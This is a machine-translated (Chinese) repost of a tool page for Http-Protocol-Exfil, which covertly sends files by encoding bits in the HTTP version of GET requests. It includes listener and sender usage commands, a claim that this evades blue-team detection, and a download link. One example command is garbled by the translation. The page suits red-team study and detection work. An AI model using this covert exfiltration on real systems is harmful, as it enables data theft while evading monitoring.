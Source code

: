 # Http-Protocol-Exfil:使用 Http 协议版本过滤文件(“HTTP/1.0”是 0，“HTTP/1.1”是 1)

> 原文：<https://kalilinuxtutorials.com/http-protocol-exfil/>

[![](img//b32f4287e75257e0d22c7961b4a236b7.png)](https://blogger.googleusercontent.com/img/a/AVvXsEjdakoFJbzknX4iI6s9RGidVuTMWVwnjtvTn_jE4xmre87IkSgZ8TkJn0JjchWiRgdLoGkRWPHg0sa03EnSt78rlhIx59Ab_X8VDknpXgy_4U7cLUQfkgscOWPTPqpzdb9hcLwmaY8r5jGgUZ21nCxi_IeVMJjgA2QLZAN9qgDHkpanEfTmtW6ykP2C=s728)

**Http-Protocol-Exfil** 使用 Http 协议版本逐位发送一个文件(“HTTP/1.0”为 0，“HTTP/1.1”为 1)。它使用 GET 请求，所以蓝队只会看到对你的 IP 地址的请求。但是，发送较大的文件需要很长时间，例如，发送 200 KB 的文件需要 1 个小时，并且请求量会非常高(是文件字节数的 8 倍)。

**创建监听器**

要运行侦听器，请使用带有一个可选参数的 listener.py:它将侦听的端口。

**python3 listener.py [PORT]**

示例:

**python3 listener.py 8080**

**发送文件**

要发送文件，请使用带有两个强制参数的 sender.py:文件路径和侦听器的 url 还有一个可选参数:远程创建的文件的名称(如果不使用，则使用输入文件的名称)。

**python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]**

示例:

**python 3 sender . py-u " http://127 . 0 . 0 . 1:8080 "-I test . txt-o up**dated _ test . txt

**例子**

首先发送文件:

![](img//bebc029550b06459c912bc5a50cd1f7b.png)

如果变量 debug 设置为 True(默认情况下)，您可以在侦听器日志消息中看到二进制值:

![](img//37896ee9ff00dd3da97aa06e9c90340a.png)

新文件是用输入文件的内容创建的:

![](img//944b5328587f48e4052028bc78d48c0f.png)[**Download**](https://github.com/ricardojoserf/http-protocol-exfil)